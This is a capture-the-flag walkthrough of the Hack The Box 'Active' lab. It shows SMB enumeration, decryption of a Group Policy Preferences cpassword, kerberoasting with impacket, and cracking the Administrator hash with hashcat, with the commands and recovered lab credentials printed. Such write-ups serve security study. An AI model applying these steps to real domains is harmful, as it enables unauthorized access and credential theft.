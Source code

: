 Title: htb - active
Tags: #htb #lab #active #windows #kerberos #group-policies #smb

---
## Walkthrough 

IP: 10.10.10.100
### Reconnaissance

Started with a Nmap scan to get all open ports along with its services and versions
```
nmap -sC -sV -A 10.10.10.100 -oA nmap/nmap_scan
```
From the scan result, it is shown that the server that we are dealing with is a Microsoft Active Directory Server 

At first glance a few notable ports and services that are interesting are: 
- SMB - 445, 139 
- Kerberos - 88 

### Enumeration 
#### SMB 
Lets start with the SMB enumeration,
1. List out all of the SMB shares 
	```bash 
	smbclient -L //10.10.10.100 
	```
	```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk 
	```
2. Check if any of the shares is accessible without credentials 
	1. `Replication` is accessible - `smbclient //10.10.10.100/Replication`  ![](assets/Pasted%20image%2020250809174212.png)
	2. From there, dump all the content within the share to host machine (for ease of viewing), here are the smb commands 
		1. `recurse ON`
		2. `mget *` - proceed the enter `y` on all the files
	3. The `active.htb` folder that was dump, hold the `Group Policies Preference (GPP)` configuration files, which happens to have the hardcoded username and password hash for a service account - `active.htb\SVC_TGS`![](assets/Pasted%20image%2020250809174231.png)
	4. This is a huge find, the `cpassword` encryption key for GPP is leaked in a Microsoft documentation - [ref](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)
	5. The password can be easily decrypted using a tool call `gpp-decrypt`, which would give us `GPPstillStandingStrong2k18` as the password 
		```
		gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'	
		```

**tldr;**
This configuration is for GPP (Group Policies Preference), the cPassword encrypted password is shown in `Group.xml` and the AES key is expose in Microsoft documentation

##### User Flag
Now that we have the credential `active.htb\SVC_TGS:GPPstillStandingStrong2k18` we can further enumerate the SMB share with a valid credential 

Using this credential, we would be able to access `Users` share, and from there we will be able to access the `SVC_TGS` directory and obtain the user flag from the Desktop  ![](assets/Pasted%20image%2020250809174242.png)
#### Kerberos 
As one of the service is running kerberos, we can try to enumerate the kerberos service also known as kerberoasting.

Within `impacket` there is a script - `GetUserSPNs` that allow user to enumerate kerberos's Service Principal Name (SPN) using a valid credentials (which we have in our case). 

```
impacket-GetUserSPNs -request -dc-host active.htb active.htb/SVC_TGS
```
![](assets/Pasted%20image%2020250809174258.png)

From that, we received the Administrator SPNs along with its hashed password which can be cracked using hashcat 

From hashcat there a few modes for kerberos, after a quick google search, the mode that can be use to crack this password is `13100`![](assets/Pasted%20image%2020250809174335.png)

Here are the result of the hashcat which would give us the credential of `Administrator:Ticketmaster1968`
```bash
hashcat -m 13100 hash.admin /usr/share/wordlists/rockyou.txt
```

```bash
hashcat -m 13100 hash.admin /usr/share/wordlists/rockyou.txt --show
```
![](assets/Pasted%20image%2020250809174346.png)
##### Root Flag
Now that we have the Administrator's credentials, we can login to the SMB again and access the Administrator's Directory ![](assets/Pasted%20image%2020250809174407.png)

and with that we have gotten both the user and root flag for this box! 
#### Troubleshoot 
1. Fixing `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` error from impacket GetUserSPNs
	1. ![](assets/Pasted%20image%2020250809174418.png)
	2. refs:
		- https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069
		- https://0xss0rz.gitbook.io/0xss0rz/pentest/protocols/kerberos-88\